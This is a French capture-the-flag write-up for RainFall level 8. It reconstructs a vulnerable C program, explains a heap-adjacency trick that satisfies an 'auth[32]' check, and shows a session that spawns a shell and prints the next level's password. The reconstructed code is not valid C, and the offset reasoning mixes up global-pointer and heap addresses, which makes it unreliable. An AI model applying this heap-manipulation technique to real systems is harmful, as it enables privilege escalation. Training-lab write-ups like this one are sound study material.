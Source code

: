 ## Level 8

pass : `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

## Sources :

```c
#include <stdio.h>

char	*auth = NULL;  // 0x08049aac
char	*service = NULL;  // 0x08049ab0

int	main() {
	while (1) {
		printf("%p, %p \n", auth, service);
		char	*in;  // exp+0x20
		if (fgets(in, 128, stdin) == 0)  // 0x80
			break;
		char *ptr = *in;
		char *auth_str = "auth ";  // ds:0x08049a80
		int i = 5;
		while (*ptr == *auth_str && i > 0) {
			ptr++;
			auth_str++;
			i--;
		}
		if (i == 0) {
			auth = malloc(4);
			*auth = '\0';
			i = 0;
			while (in[5 + i] != '\0') {
				i++;
			}
			i--;
			if (i <= 30) {  // 0x1e
				strcpy(auth, &in[5]);
			}
		}
		char *reset_str = "reset";  // 0x804881f
		int i = 5;
		ptr = *in;
		while (*ptr == *reset_str && i > 0) {
			ptr++;
			reset_str++;
			i--;
		}
		if (i == 0) {
			free(auth);
		}
		char *service_str = "service";  // 0x804881f
		int i = 6;
		ptr = *in;
		while (*ptr == *service_str && i > 0) {
			ptr++;
			service_str++;
			i--;
		}
		if (i == 0) {
			service = strdup(&in[7]);
		}
		char *login_str = "login";  // 0x804881f
		int i = 6;
		ptr = *in;
		while (*ptr == *login_str && i > 0) {
			ptr++;
			login_str++;
			i--;
		}
		if (i != 0) {
			continue;
		}
		if (auth[32] == '\0') {  // 0x20
			system("/bin/sh");
			continue;
		}
		fwrite("Password:\n", 1, 10, stdout);
	}
	return (0);
}
```

## Recherche :

Pour que l'on lance `system("/bin/sh");`, il faut que `auth[32] == '\0'`, mais comme on ne peut écrire que 30 caractères sur `auth`, on va passer par le fait que les deux variables `auth` et `service` sont contingentes, `0x08049ab0 - 0x08049aac = 4`, donc `auth[32] == service[28]`. On va donc mettre dans service une chaine de 28 caractères, qui sera directement complété par `\0` avec strdup.
Enfin, un coup de login et on est bon.

## Exploit

```shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth test
0x804a008, (nil)
service 0123456789012345678901234567
0x804a008, 0x804a018
login
$ whoami
level9
$ cd ../level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```
